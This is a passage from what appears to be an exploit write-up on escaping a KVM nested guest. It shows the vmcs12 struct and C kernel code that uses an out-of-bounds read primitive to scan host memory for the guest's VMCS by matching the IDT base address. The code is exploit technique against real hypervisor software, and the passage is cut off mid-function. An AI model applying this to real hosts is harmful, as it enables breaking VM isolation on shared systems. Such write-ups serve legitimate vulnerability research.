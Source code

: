 ```c
    return val;
}
```

Now we were able to start scanning the host's memory to find the guest's VMCS!
But there was still the question of what value are we actually looking for when scanning...

Here is a truncated definition of the `struct vmcs12` that we are looking for:
```c
struct __packed vmcs12 {
    /* According to the Intel spec, a VMCS region must start with the
     * following two fields. Then follow implementation-specific data.
     */
    struct vmcs_hdr hdr;
    u32 abort;

    u32 launch_state; /* set to 0 by VMCLEAR, to 1 by VMLAUNCH */
    u32 padding[7]; /* room for future expansion */

    u64 io_bitmap_a;
    u64 io_bitmap_b;
    u64 msr_bitmap;
    u64 vm_exit_msr_store_addr;
    u64 vm_exit_msr_load_addr;
    u64 vm_entry_msr_load_addr;
    u64 tsc_offset;
    u64 virtual_apic_page_addr;
    u64 apic_access_addr;
    u64 posted_intr_desc_addr;
    u64 ept_pointer;
    ...
    natural_width guest_gdtr_base;
    natural_width guest_idtr_base;
    natural_width guest_dr7;
    natural_width guest_rsp;
    natural_width guest_rip;
    natural_width guest_rflags;
    ...
};
```

From the fields in this struct I looked for fields that would be fairly unique and that I knew the value of, I ended up choosing the `guest_idtr_base`.
Conveniently, the VMCS is required to be page aligned so I just needed to look for the IDT base address `0xfffffe0000000000` at offset 0x208 at at page granularity:
```c
static noinline int find_l1_vmcs(uint64_t *l1_vmcs_offset) {
    unsigned long long pos_offset = 0, neg_offset = 0;
    uint64_t zero_val = 0, pos_val = 0, neg_val = 0;
    uint64_t found_val = 0, found_offset = 0;
    uint64_t i = 0;

    zero_val = read_guy(0ull);
    pr_info("vmcs12[0] = %llx\n", zero_val);

    // scan in each direction looking for the guest_idtr_base field of the l1 vm
    for (i = 0; i < 0x4000; i++) {
        // from attaching to the l1 guest, the address of guest_idtr_base always has 0x208 in the lower 3 nibbles
        pos_offset = ((i * 0x1000) + 0x208) / 8;
        neg_offset = ((i * -1 * 0x1000) + 0x208) / 8;

        pos_val = read_guy(pos_offset);
        if (pos_val == IDT_BASE) {
            found_val = pos_val;
```